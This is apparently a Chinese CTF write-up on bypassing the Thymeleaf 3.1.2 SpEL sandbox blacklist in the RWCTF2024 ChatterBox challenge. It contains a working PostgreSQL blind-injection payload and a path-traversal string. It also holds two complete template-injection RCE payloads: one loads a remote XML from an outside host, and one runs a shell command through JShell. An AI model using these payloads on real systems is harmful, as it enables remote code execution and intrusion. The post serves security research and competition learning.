[Java](https://blog.0kami.cn/#java) [ctf](https://blog.0kami.cn/#ctf)

# Thymeleaf ssti 3.1.2 黑名单绕过

## 0x01 前言

-   thymeleaf 模版对于 SpEL 表达式的解析具有黑名单上的类型检查（最早追溯到什么时间暂时没找到）
-   在 2023.07 thymeleaf 出了个沙箱绕过的漏洞 CVE-2023-38286，影响版本是 3.1.1.RELEASE。这个沙盒绕过可以追溯到 [spring admin 的模版解析漏洞](https://github.com/advisories/GHSA-7gj7-224w-vpr3) 。主要出在 `org.springframework.util`下的反射包可以绕过上述的类型检查黑名单。thymeleaf 修复的 [commit](https://github.com/thymeleaf/thymeleaf/commit/87b512d1ad331b8844f6bda404db0a36a44d19cd) 主要是增加了黑名单内容`org.springframework.util`。

那么，在最新的黑名单条件下，还能绕过 3.1.2 的沙盒吗？答案是肯定的，黑名单措施永远仅为一个无奈之举。也预想到 thymeleaf 的 cve 也有的卷了 XD。本文将以 rwctf2024 的 chatterbox 为例，简单讲述下怎么绕过 3.1.2 的黑名单。

## 0x02 简述 ChatterBox 解题思路

ChatterBox 这道题我们的揭发主要有以下几个部分

1.  pgsql sql 注入
2.  [tomcat 临时文件包含](https://tttang.com/archive/1692/#toc__4)
3.  thymeleaf 沙盒绕过

这里 1 和 2 不是重点，不细讲了。思路主要是

1.  利用 pgsql 报错注入盲注出 admin 的 password
    1.  这里需要绕过题目的 2 种过滤
        1.  黑名单
        2.  sql ast 检查
            1.  ast 检查用了 3 套逻辑，jsqlparser 和 druid 解析
                1.  jsqlparser 的版本比较低，用一些新的语法就可以让他报错，从而进入 druid 的检查
                2.  druid 的检查报错用这个 [issue](https://blog.0kami.cn/blog/2024/thymeleaf%20ssti%203.1.2%20%E9%BB%91%E5%90%8D%E5%8D%95%E7%BB%95%E8%BF%87/[https://github.com/alibaba/druid/issues/5198](https://github.com/alibaba/druid/issues/5198))
                3.  最后是题目的检查，这块可以比较好绕，出现关键字即可
    2.  最终的 payload `'||exp(709+passwd ~ '^x'):: int<>SOME(ARRAY[0]):: int+ascii(' USER_DEFINE')-+ascii(' USER_DEFINE'))||'`
2.  盲注出密码后，使用 tomcat 临时文件包含的方法可以在目标环境下上传任意内容，这里为后续的沙盒绕过提供了前置条件

着重看一下 thymeleaf 的沙盒绕过。  首先，第一步的路径穿越，细看代码可以发现 spring 的 getResource 会对路径做处理 `org.springframework.util.ResourceUtils#toURL`   把 `..\` 转换成 `../`，所以我们传入的 fname 直接用 `..\` 即可 另外，后缀的绕过可以用 `#`，最终 payload 为 `..\..\xxx#`。通过这个方式，可以载入上面提到的 tomcat 临时文件的文件句柄。

在解决掉任意文件内容的获取问题后，我们就具备了 thymeleaf 模版解析的能力。不过因为题目限制了 `<` `>` 我们需要用 thymeleaf 的 [expression inlining](https://www.thymeleaf.org/doc/tutorials/3.1/usingthymeleaf.html#expression-inlining) 来进行执行 SpEL，后续 payload 上面会麻烦一点。至于另外的两个关键字限制，因为 SpEL 本身的强大容错机制 XD，静态调用的时候加个空格也能解析成功。不过，回过头来看，这两个关键字可能是 hint。

## 0x03 thymeleaf 沙盒原理

thymeleaf 的限制主要在执行过程中判断类型是否在黑名单里面

1.  new 操作，判断当前类是否在黑名单里面
2.  静态函数调用，判断当前类是否在黑名单里面
3.  函数调用的时候，判断当前 object 对应的类是否在黑名单里面

### 类型限制

类型的黑名单判断在 `org.thymeleaf.util.ExpressionUtils#isTypeAllowed`    整体逻辑都在上面三个函数里面，排除如下两张图里的类  

### 函数调用限制

`org.thymeleaf.util.ExpressionUtils#isMemberAllowed`  分两种情况

-   一种是静态函数调用，会走类型限制流程，既 `isTypeAllowed` 函数
-   另一种是普通的函数调用，会判断类型和当前类的父类是否在黑名单里面，既 `isMemberAllowedForInstanceOfType` 函数的实现

整体类型限制跟前面无异，多了一个类型父类的判断，整体黑名单如下所示 

## 0x04 如何绕过这两个限制

这里先看一下 3.1.1.RELEASE，类型黑名单少了 `org.springframework.util`，导致可以通过下面的操作绕过上面的限制，具体 payload 见[这篇文章](https://security.snyk.io/vuln/SNYK-JAVA-ORGTHYMELEAF-5776186)

-   `org.springframework.util.ClassUtils#forName` 获取任意 class 对象
-   `org.springframework.util.ReflectionUtils#findMethod` 获取任意 Method 对象
-   `org.springframework.util.ReflectionUtils#invokeMethod` 调用任意 Method 对象

原理上看，找到非黑名单里面的类和函数来触发反射调用逻辑，由于危险函数调用的流程发生于反射调用的函数里面，在 thymeleaf 层面是没办法拦截的。如此一来，就绕过了 thymeleaf 沙箱的黑名单限制。

那么，在 3.1.2 版本下的黑名单外，能否找到其他的利用方式呢？ChatterBox 的后半部分 RCE 考的就是这个，我们有两个思路

1.  找到黑名单外的函数调用，可以直接完成 RCE
2.  找到黑名单外的函数调用，可以完成反射调用，然后进一步完成 RCE

那么，接下来的工作其实就是找特殊 public 函数，并能实现上面两个思路的类和函数。此时，就可以祭出 tabby 了。

### 编写 Cypher 语句

首先定义 source，非黑名单下的类

```plain
match (source:Method {IS_PUBLIC:true})
  where not(source.CLASSNAME starts with 'org.springframework.')
    and not(source.CLASSNAME starts with 'java.')
    and not(source.CLASSNAME starts with 'jakarata.')
    and not(source.CLASSNAME starts with 'jdk.')
    and not(source.CLASSNAME starts with 'com.sun.')
    and not(source.CLASSNAME starts with 'sun.')
    and not(source.CLASSNAME starts with 'org.xml.sax.')
    and not(source.CLASSNAME starts with 'org.w3c.dom.')
    and not(source.CLASSNAME starts with 'org.omg.')
```

然后定义 sink

```plain
match (sink:Method {IS_SINK:true, VUL:"CODE"})
```

最后路径查找，开源版本生成的用 `tabby.algo.findPath`

```plain
call tabby.beta.findPath(source, "-", sink, 2, false) yield path
```

完整语句

```plain
match (source:Method {IS_PUBLIC:true})  
  where not(source.CLASSNAME starts with 'org.springframework.')  
    and not(source.CLASSNAME starts with 'java.')  
    and not(source.CLASSNAME starts with 'jakarata.')  
    and not(source.CLASSNAME starts with 'jdk.')  
    and not(source.CLASSNAME starts with 'com.sun.')  
    and not(source.CLASSNAME starts with 'sun.')  
    and not(source.CLASSNAME starts with 'org.xml.sax.')  
    and not(source.CLASSNAME starts with 'org.w3c.dom.')  
    and not(source.CLASSNAME starts with 'org.omg.')
match (sink:Method {IS_SINK:true, VUL:"CODE"})  
call tabby.beta.findPath(source, "-", sink, 2, false) yield path  
return path limit 1
```

另外，对于 source 的描述还可以加一个 `IS_STATIC`，静态函数调用在 payload 编写上会相对简单一点，我后续的查找结果也是基于静态函数调用的描述产生的。如果在查找中，VUL 定位的范围过大，速度慢的话，可以考虑指定 NAME 字段。

### 结果确认

这里对 sink 函数限制在 `CODE`、`EXEC`、`REFLECTION` 这三种能达成代码执行或命令执行的函数上面 经排查，`CODE` 和 `EXEC` 在 2 个深度上找不到结果。那么意味着思路一在 2 个深度上暂时是不可行的。而 `REFLECTION` 类型的结果则相对很多，省去排查的过程，筛选出如下几个

```plain
ch.qos.logback.core.util.Loader#loadClass
com.alibaba.druid.util.Utils#loadClass
org.apache.el.util.ReflectionUtil#forName
com.alibaba.druid.support.logging.Resources#classForName

ch.qos.logback.core.util.OptionHelper#instantiateByClassNameAndParameter
com.zaxxer.hikari.util.UtilityElf#createInstance

org.apache.el.util.ReflectionUtil#getMethod
org.apache.catalina.util.Introspection#getDeclaredMethods
org.apache.el.util.ReflectionUtil#toTypeArray

org.apache.tomcat.util.IntrospectionUtils#callMethod1
org.apache.tomcat.util.IntrospectionUtils#callMethodN
```

上述内容都不在黑名单里面，组合一下有两种思路

#### 思路一：反射构造函数

由于在 spring 的环境下，我们可以利用 `ClassPathXmlApplicationContext` 构造函数来达成 SpEL 表达式执行，payload 会用到两个静态函数

1.  `org.apache.el.util.ReflectionUtil#forName`
2.  `com.zaxxer.hikari.util.UtilityElf#createInstance`

不细讲了，这个 payload 构造起来比较简单，当时比赛用的就是这个 payload

```plain
[[${T(org. apache.el.util.ReflectionUtil).forName("com.zaxxer.hikari.util.UtilityElf").createInstance("org."+"springframework.context.support.ClassPathXmlApplicationContext", T(org. apache.el.util.ReflectionUtil).forName("org."+"springframework.context.support.ClassPathXmlApplicationContext"), "http://ip/test.xml")}]]
```

#### 思路二：反射函数调用

由于比赛环境是可以出网的，思路一可以在公网挂载 xml 的方式来载入 exp。赛后想了下，如果是不出网的情况呢？能不能根据前面找到的静态函数来构造个不出网的命令执行或任意代码执行呢？这次 payload 组合了下面几个静态函数

1.  `ch.qos.logback.core.util.Loader#loadClass`
2.  `com.zaxxer.hikari.util.UtilityElf#createInstance`
3.  `org.apache.tomcat.util.IntrospectionUtils#callMethodN`

思路是通过 `createInstance` 构建 `jakarta.el.ELProcessor` 对象，然后再通过 `callMethodN` 来调用它的 `eval` 函数。因为比赛环境是 jdk17，所以后续的 EL 利用的是 `jdk.jshell.JShell` 来执行任意代码（在 jdk<=11 的环境下可以用 `javax.script.ScriptEngineManager`）。有兴趣的师傅可以从头构建一下下面的 payload，还是有些坑要踩的。

```plain
[[${T(org. apache.tomcat.util.IntrospectionUtils).callMethodN(T(com.zaxxer.hikari.util.UtilityElf).createInstance('jakarta.el.ELProcessor', T(ch.qos.logback.core.util.Loader).loadClass('jakarta.el.ELProcessor')), 'eval', new java.lang.String[]{'"".getClass().forName("jdk.jshell.JShell").getMethods()[6].invoke("".getClass().forName("jdk.jshell.JShell")).eval("java.lang.Runtime.getRuntime().exec(\"touch /tmp/success1\")")'}, T(org. apache.el.util.ReflectionUtil).toTypeArray(new java.lang.String[]{"java.lang.String"}))}]]
```

另外，在翻 `jdk.jshell.JShell` 的利用的时候，找到了 [这篇文章](https://codewhitesec.blogspot.com/2023/04/java-exploitation-restrictions-in.html) 对其利用的描述

> Thus, it seems that we don't have access to a lot of "useful" classes with the programmatic approach. But as you already might have guessed, using fully qualified class names can be used as well. We don't have to "fix" the `import` issue mentioned above but can still use all built-in JDK classes by referencing them accordingly: `java.nio.file.Files.createFile(java.nio.file.Paths.get(\"/tmp/RCE\"));`. This gives us again all the power needed to build (almost) arbitrary Java code payloads for exfiltrating data, putting them in a server response etc. pp.

JShell 的默认载入包的范围在



所以作者认为 jshell 没办法直接调用类似命令执行的函数来进行 `useful exploit`。但我在 jshell 终端以及比赛环境中都试成功了 Runtime 的 exec 调用。跟 codewhitesec 的结论貌似有点冲突，这块后续看看研究一番，也欢迎师傅一起讨论 XD

## 0x05 总结

回到 ChatterBox 这个题目上，前面提到对于 SpEL 表达式的黑名单检查 `org.apache` 其实是一种 hint。上面的两种思路都能通过 `org.apache` 下面的类完成利用。题目出的很赞，膜一下 XD

另外，thymeleaf 的沙盒黑名单防御模式是必然逃不出被绕过的命运，或许下一个 CVE 马上就来了，手动狗头。
